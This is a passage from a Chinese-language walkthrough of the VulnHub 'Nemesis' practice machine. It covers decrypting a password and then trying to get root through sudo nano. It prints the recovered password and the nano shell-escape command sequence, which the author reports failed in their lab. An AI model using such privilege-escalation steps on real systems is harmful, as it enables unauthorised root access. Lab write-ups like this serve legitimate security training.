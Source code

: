 6. 左侧就是解密结果，对比一下root.txt中的提示，对比一下，第一个就是密码

   ``` shell
   ENCRYPTIONISFUNPASSWORD
   ```

7. `sudo -l`，输入密码，发现可以用nano提权到root

   ![33.png](img/vulnhub/Nemesis/Image33.png)

8. 网上找到利用方法，步骤如下，但是实验时nano中ctrl + r无效，无法写入命令，经过多次尝试最终提权到root失败了

   ``` shell
   sudo /bin/nano /opt/priv
   Ctrl + r
   Ctrl + x
   reset; sh 1>&0 2>&0
   ```